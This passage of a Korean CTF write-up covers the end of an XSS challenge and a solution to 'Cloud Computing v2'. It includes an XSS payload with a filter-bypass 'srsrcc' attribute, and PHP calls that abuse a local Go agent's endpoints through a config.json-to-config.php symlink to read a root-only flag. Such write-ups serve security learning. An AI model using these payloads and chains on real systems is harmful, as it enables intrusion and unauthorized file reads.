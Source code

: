 FLAG를 주는 시크릿 페이지에서 alert(1)이 실행되는 URL을 제출 했지만 FLAG를 받을 수 없었고 더 열심히 하라는 내용이 출력됐습니다. 문제를 찾을 수 없어서 계속 스크립트도 바꿔보고 콘솔창에 발생하는 모든 에러를 지울 수 있도록 해봤지만 해결이 되지 않아서 IRC에 접속했습니다.

다행히도 친절한 ADMIN이 FLAG를 주는 봇은 외부에서 접속이 되지 않으며 BASE URL이 다를 수 있다는 이야기를 해줬습니다.

`<script srsrcc='http://pwnable.org:5000/image/mZdWjn/png?callback=xxx'><script>`

처음에는 위와 같이 BASE 서버 주소가 포함된 URL을 요청 했기 때문에 서버에서 alert(1)이 실행되지 않았기 때문에 한 시간이 넘는 시간이 이상한 삽질에 쓰이게 됐습니다. 다음부터는 꼭 인지해야할 것 같습니다^^

## Cloud Computing v2

> Misc (Web + Reversing)
275 Pts
18 solved

Cloud Computing v2 문제는 Cloud Computing 문제와는 다르게 flag가 루트 권한에서만 읽을 수 있게 되어 있습니다. 따라서 flag를 읽을 수 있는 다른 서비스가 있을 것이라고 생각을 했습니다.

Cloud Computing의 문제에서 open_basedir을 우회하여 루트 폴더를 보면 이상한 agent라는 바이너리가 존재하는 것을 알 수 있습니다.

agent 바이너리는 Echo라는 go 언어의 웹 프레임워크를 사용하여 작성되어 있습니다.

go 언어를 IDA로 분석하기 위해서 IDAPython 스크립트를 사용했습니다.

[https://github.com/strazzere/golang_loader_assist](https://github.com/strazzere/golang_loader_assist)

해당 스크립트의 최신 스크립트는 IDA Pro 7.4 이후 Python3 버전에서 동작하도록 만들어져있습니다.

따라서 IDA Pro 7.2를 사용하는 저는 이전 commit을 보고 과거 버전에서 동작하는 스크립트를 찾아 실행시켰습니다.

([https://raw.githubusercontent.com/strazzere/golang_loader_assist/fd6e598fd586b0fe07e66c0d309824d119a02630/golang_loader_assist.py](https://raw.githubusercontent.com/strazzere/golang_loader_assist/fd6e598fd586b0fe07e66c0d309824d119a02630/golang_loader_assist.py))

main_main 함수에서 `127.0.0.1:80`로 Echo 서버를 시작하는 것을 알 수 있으며 아래와 같이 라우팅 되는 것을 확인할 수 있습니다.

`/init` ⇒ `main_init`

`/read` ⇒ `main_read`

`/scan` ⇒ `main_scan`

3가지 End-Point는 모두 dir을 인자로 받으며 dir은 `^/var/www/html/sandbox/[0-9a-f]{40}/` 정규식 검사를 하게 됩니다.

`main_init` 함수는 주어진 dir에 `{"ban": "flag"}` 내용의 `config.json` 파일을 생성해주는 역할을 합니다.

`main_read` 함수는 주어진 dir에 `config.json` 파일을 읽어서 ban 내용을 확인하고 `target`인자로 넘어온 경로를 읽어주는 역할을 합니다. 읽은 내용은 Base64로 인코딩하여 출력해줍니다. 단 ban에 있는 내용중 한글자라도 일치하게 되면 파일을 읽어주지 않습니다.

`main_scan` 함수는 주어진 dir에 있는 `*.php` 파일들의 내용을 초기화 해주는 역할을 합니다.

따라서 아래와 같은 과정을 통해서 flag를 읽을 수 있습니다. 

```
echo file_get_contents("http://127.0.0.1/init?dir=/var/www/html/sandbox/c1023633f127ad0f5da7fdbee0e99c764d2d2e9b/");

symlink("/var/www/html/sandbox/c1023633f127ad0f5da7fdbee0e99c764d2d2e9b/config.json", "/var/www/html/sandbox/c1023633f127ad0f5da7fdbee0e99c764d2d2e9b/config.php");

echo file_get_contents("http://127.0.0.1/scan?dir=/var/www/html/sandbox/c1023633f127ad0f5da7fdbee0e99c764d2d2e9b/");

echo file_get_contents("http://127.0.0.1/read?dir=/var/www/html/sandbox/c1023633f127ad0f5da7fdbee0e99c764d2d2e9b/&target=/flag");

successsuccessfile contents:ZmxhZ3tkYzZhNzNhZjA1MmM2MTM1YjRjNjM1NmE0YWFmMGI1OH0K //flag{dc6a73af052c6135b4c6356a4aaf0b58}
```